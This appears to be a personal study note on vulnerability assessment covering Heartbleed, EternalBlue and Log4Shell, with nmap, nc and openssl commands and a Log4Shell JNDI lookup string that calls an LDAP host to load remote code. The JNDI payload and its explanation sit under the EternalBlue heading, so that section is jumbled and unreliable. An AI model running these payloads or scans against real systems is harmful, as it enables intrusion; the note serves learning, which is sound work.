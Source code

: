 ```yaml
---
title: 'Vulnerability Assessment'
pubDate: 'May 12 2023'
slug: 'trip/vulnerability-assessment'
---
```


Risk Management -> Vulnerability Management -> Vulnerability Assessment -> Penetration Test

NIST: National Vulnerability Database

Fix machine vulnerability if that is identified in the risk management process

## OpenSSL Heartbleed bug (CVE-2014-0160)

Do not handle properly Heartbeat Extension packets, which allows remote attackes to obtain sensitive information from process memory via crafted packets that trigger a buffer over-read, by reading private keys.

**Anatomy:** We send a packet as the part of TLS entry so there is a TCP HandShake and the next layer above is the encription connection and as part of that public and private key for each side that will encript a shared private key that is simetric.

```bash

$nmap -sV --sript ssl-enum-ciphers -p443 target

#TLSv1.0, TLSv1.1, TLSv1.2 vulnerable

$nmap -p443 --script ssl-heartbleed target

nc -v domain.com 80 # GET / HTTP/1.0

openssl s_client -connect domain.com:443 # GET / HTTP/1.0

```

## EternalBlue - MS17-010 (CVE-2017-0143)

**_${jndi:ldap://demo.local:1389/mycode}_**

Server fails to parse logged data as str and evaluates JNDI lookup, java naming and directory interface

```bash
# win 7 enterprise 7601
# script from nmap: smb-vuln-ms17-010
# EternalBlue attack SMBv1 server, BufferOverflow allows to RCE
$nmap -sV -O demo.local
autoBlue

```

## Log4J - (CVE-2021-44228)

Its useful for login in java.

Attacker can control log messages or log message parameters can execute code from LDAP servers

```bash
$nmap --sript log4shell.nse --script-args log4shell.callback-server=172.17.42.1:1389 -p8080 172.17.42.1
```
